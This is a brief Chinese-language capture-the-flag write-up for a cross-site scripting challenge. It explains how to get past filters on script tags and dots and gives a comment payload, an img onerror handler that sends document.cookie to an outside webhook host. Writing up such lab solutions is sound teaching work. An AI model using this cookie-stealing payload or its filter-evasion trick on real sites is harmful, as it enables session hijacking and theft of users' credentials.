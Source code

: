 使用Webhook获取接受cookie的平台。

需要绕过对`<script>`标签和`.`(点)的过滤。

在comment中提交以下内容：

```javascript
<img src=x onerror="window['location']='https://webhook'+String['fromCharCode'](46)+'site/a1079fb3-b8f3-4141-97ec-8ed50f9cecd1?c='+document['cookie']">
```

在Webhook中查看请求及cookie，得到FLAG。